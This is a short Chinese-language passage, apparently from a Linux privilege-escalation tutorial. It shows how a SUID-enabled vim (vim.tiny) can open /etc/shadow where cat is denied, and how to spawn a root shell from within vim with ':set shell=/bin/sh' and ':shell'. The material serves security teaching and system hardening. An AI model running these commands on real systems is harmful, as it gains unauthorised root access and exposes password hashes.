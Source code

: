 Vim的主要用途是用作文本编辑器， 但是，如果以SUID运行，它将继承root用户的权限，因此可以读取系统上的所有文件。
```
# 直接查看 shadow 文件会报错
cat /etc/shadow
cat: /etc/shadow: Permission denied
```
```
# 使用vim.tiny编辑成功
vim.tiny /etc/shadow
```

此外，我们还可以通过Vim运行shell来执行只有root才能完成的操作。

```
vim.tiny
# Press ESC key
:set shell=/bin/sh
:shell
```
